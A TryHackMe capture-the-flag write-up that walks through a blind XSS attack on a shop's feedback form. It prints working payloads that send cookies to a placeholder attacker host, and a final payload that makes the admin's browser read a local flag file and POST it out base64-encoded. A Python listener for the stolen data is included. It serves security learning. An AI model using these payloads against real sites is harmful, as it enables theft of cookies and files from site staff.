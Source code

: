 <br>

# The Sticker Shop - TryHackMe Writeup

## Challenge Description

**Task 1**  
The sticker shop is finally online!  
Your local sticker shop has finally developed its own webpage. They do not have too much experience regarding web development, so they decided to develop and host everything on the same computer that they use for browsing the internet and looking at customer feedback. Smart move!

**Objective**:  
Can you read the flag at `http://MACHINE_IP:8080/flag.txt`?
---

## Table of Contents
- [Walkthrough](#walkthrough)
  - [Initial Exploration](#initial-exploration)
  - [The Feedback Page](#the-feedback-page)
  - [Crafting the Payloads](#crafting-the-payloads)
    - [Initial Test Payload](#initial-test-payload)
    - [Cookie Payload (Unsuccessful)](#cookie-payload-unsuccessful)
    - [Direct File Access (Successful)](#direct-file-access-successful)
- [Decode the Flag](#decode-the-flag)

---


## Walkthrough

### Initial Exploration
When I first read the challenge prompt, a few things caught my attention. The mention of hosting everything on the same computer sounded like a major vulnerability waiting to happen, especially if the admin reviews feedback on the same browser. The **hint** in the description felt like a nudge toward something admin-side, like a **Blind XSS**.

1. I visited `http://MACHINE_IP:8080/flag.txt` directly, hoping the flag was accessible.  
   - **Result**: I was greeted with a **401 Unauthorized** error. So, no luck here.

2. I went to the homepage at `http://MACHINE_IP:8080/`.  
   - This was a basic website, nothing fancy. But from here, I navigated to the **Feedback page**.

---

### The Feedback Page
The feedback page had a simple textbox for entering comments and a message below it:

> "Thanks for your feedback! It will be evaluated shortly by our staff."

At this point, I had a pretty strong suspicion that this was a **Blind XSS** challenge. The wording in both the prompt and the feedback page hinted at admin-side activity:  
- "evaluated shortly"  
- "feedback is important"

I decided to test for Blind XSS by injecting a basic payload into the textbox.

---

### Crafting the Payloads

#### Initial Test Payload
To confirm whether XSS was possible, I used a simple test payload:

```html
<img src="http://ATTACKER_IP:8000">
```
In order to actually receive this, I first had to start a python simple http server on my machine

```bash
python3 -m http.server 8000
```
soon after I sent the XSS payload requests started floading my terminal:
```bash
MACHINE_IP - - [29/Nov/2024 17:42:25] "GET / HTTP/1.1" 200 -
```
This confirmed it, the machine **is vulnerable to Blind XSS**. Now what was left to do was to get the admin bot to do something useful

#### Cookie Payload (unsuccesfull)
The first trick on my book was to steal the admin's cookie to gain access to the flag.txt file, to do that I used the following payload:

```html
<img src="invalid-image" onerror="fetch('http://ATTACKER_IP:8000/cookies?cookie=' + document.cookie)">
```
Unfortunately, this did not yield anything usefull, the website probably doesn't have cookies or my payload wan't able to capture it.

```bash
MACHINE_IP - - [29/Nov/2024 17:45:25] code 404, message File not found
MACHINE_IP - - [29/Nov/2024 17:45:25] "GET /cookies?cookie= HTTP/1.1" 404 -
```
#### Direct File Access (succesfull!)
The next thing was to see if I could get the admin to go to the flag.txt file and send its contents back to my http server. To do this a simplehttp does not suffice since it does not support POST requests

Using the following code, I made a better http server to view POST requests too:

```python
from http.server import BaseHTTPRequestHandler, HTTPServer
import urllib.parse

class RequestHandler(BaseHTTPRequestHandler):
    def do_POST(self):
        content_length = int(self.headers['Content-Length'])
        post_data = self.rfile.read(content_length).decode('utf-8')
        print(f"POST data received: {post_data}")

        self.send_response(200)
        self.end_headers()
        self.wfile.write(b"OK")

    def do_GET(self):
        parsed_path = urllib.parse.urlparse(self.path)
        query = urllib.parse.parse_qs(parsed_path.query)
        print(f"GET request received: {query}")

        self.send_response(200)
        self.end_headers()
        self.wfile.write(b"OK")

server = HTTPServer(('0.0.0.0', 8000), RequestHandler)
print("Server started on port 8000...")
server.serve_forever()
```
Now all I needed was a new payload, after a lot of tries (and espressos) I finally found a working one:

```html
<img src="x" onerror="fetch('http://127.0.0.1:8080/flag.txt').then(r => r.text()).then(flag => fetch('http://ATTACKER_IP:8000/flag',{method:'POST',body:btoa(flag),mode:'no-cors'})).catch(e => fetch('http://ATTACKER_IP:8000/error',{method:'POST',body:btoa(e.message),mode:'no-cors'}));">
```
Be sure to change ```ATTACKER_IP``` with your openvpn ip, as per the ip fetched, you might be wondering why it is a 127.0.0.1 ip. I found out using other payloads that the "admin" doesn't use the openvpn ip we see (why would it if the file is on his computer?), instead it has a local one, which works way better.

---
### Decode the Flag
If everything went right, you received a base64 encoded flag, to decode it use a tool like [cyberchef](https://gchq.github.io/CyberChef/).

---

## Final Thoughts

This challenge was like making a perfect espresso: patience, precision, and the right blend of ideas. Blind XSS taught me to adapt to localhost quirks and think creatively about admin-side processing. 

Grazie for reading, and buona fortuna on your next hack! 

